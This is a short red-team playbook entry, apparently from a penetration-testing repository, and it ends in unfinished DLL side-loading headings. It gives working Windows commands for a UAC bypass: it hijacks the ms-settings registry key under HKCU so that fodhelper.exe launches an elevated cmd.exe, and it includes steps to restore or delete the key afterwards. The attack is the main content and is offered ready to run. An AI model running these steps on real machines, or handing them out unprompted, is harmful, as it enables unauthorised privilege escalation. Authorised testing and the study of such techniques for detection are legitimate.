 User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup

If the registry existed prior to execution, restore its value:

```
cmd> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v {{ initial_command }} /f
```

Otherwise, delete the key:

```
cmd> reg delete HKCU\Software\Classes\ms-settings\Shell\Open\command /f
```

### References

- https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/
- https://4pfsec.com/offensive-windows-fodhelper-exe/

## DLL Side Loading - General guidance

### Notes

- For an up-to-date list of side-loadable DLLs, refer to https://hijacklibs.net/

## DLL Search Order Hijacking - MpCmdRun.exe sideloading
